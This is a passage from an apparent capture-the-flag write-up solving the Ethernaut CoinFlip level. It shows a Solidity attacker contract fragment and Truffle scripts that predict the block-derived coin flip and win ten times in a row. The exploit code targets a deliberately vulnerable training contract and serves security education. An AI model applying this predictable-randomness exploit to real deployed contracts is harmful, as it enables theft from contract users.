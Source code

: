 ~~~solidity
        uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
        side = coinFlip == 1 ? true : false;

        // Here we call the victim contract flip function with our guess
        return victimContract.flip(side);
    }
}
~~~

In the `migrations/2_deploy_contracts.js` file include the necessary code to deploy both `CoinFlip` (if you haven't yet) and `CoinFlipAttack`, the run `npx truffle migrate`.
~~~javascript
let CoinFlip = artifacts.require('./CoinFlip.sol')
let CoinFlipAttack = artifacts.require('./CoinFlipAttack.sol')

module.exports = deployer => {
    deployer.deploy(CoinFlip)
    deployer.deploy(CoinFlipAttack)
}
~~~

Now create the exploit file, such as `exploits/coinflip.exploit.js`, and follow the structure of our previous exploits (check [Fallout](https://www.notonlyowner.com/ethereum/solving-zeppelin-ethernaut-ctf-fallout/) and [Fallback](https://www.notonlyowner.com/ethereum/solving-zeppelin-ethernaut-ctf-fallback/) posts for a refresh)

~~~javascript
const CoinFlipContract = artifacts.require('CoinFlip')
const CoinFlipAttackContract = artifacts.require('CoinFlipAttack')
const assert = require('assert')

async function execute(callback) {
    // Instance victim and attacker contract
    let victimContract = await CoinFlipContract.deployed()
    let attackerContract = await CoinFlipAttackContract.deployed()

    callback()
}
module.exports = execute
~~~

First, let's set the victim's address in the attacker contract:
~~~javascript
await attackerContract.setVictim(victimContract.address)
~~~

All set, flip the coin ten times by calling the flip function of our malicious attacker contract.
~~~javascript
for (let index = 0; index < 10; index++) {
    await attackerContract.flip()
}
~~~

That's it. Enjoy:
~~~javascript
// Check how many times we won
let wins = await victimContract.consecutiveWins.call()
assert.equal(wins.toNumber(), 10)
console.log(`Great! We won ${wins} times.`)

/* ... */
~~~
